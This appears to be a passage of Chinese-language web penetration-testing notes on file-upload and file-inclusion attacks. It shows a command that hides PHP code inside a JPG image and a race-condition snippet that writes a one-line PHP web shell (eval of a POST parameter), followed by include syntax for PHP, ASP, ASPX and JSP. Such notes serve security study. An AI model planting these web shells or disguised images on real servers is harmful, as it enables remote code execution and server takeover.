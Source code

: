```
图片马
	copy 1.jpg/b + 2.php/a 3.jpg
```

### 条件竞争

```php
//生成一句话木马
<?php
fputs(fopen('a.php','w'),'<?php eval($_POST[1]); phpinfo(); ?>');
?>
```









## 文件包含函数

### php

```php
include('xxx.php');// 使用该函数包含文件
include_once('xxx.php'); // 功能与include()相同，但是当程序重复调用同一个文件时，只会调用
一次。
require('xxx.php'); // require和include(）类似，但是当require()调用的文件发生错误时，程
序会输出错误信息，并终止脚本的执行。
require_once('xxx.php'); // require()相同，但是当程序重复调用同一个文件时，只会调用一次。
```

### asp

```asp
<!--#include file="xxx.asp"-->
```

### aspx

```asp
<!--#include file="xxx.aspx"-->
```

### jsp

```jsp
<%@ include file="xxx.jsp"%>
<jsp:include page="xxx.jsp"/>
```



## 文件包含-协议流
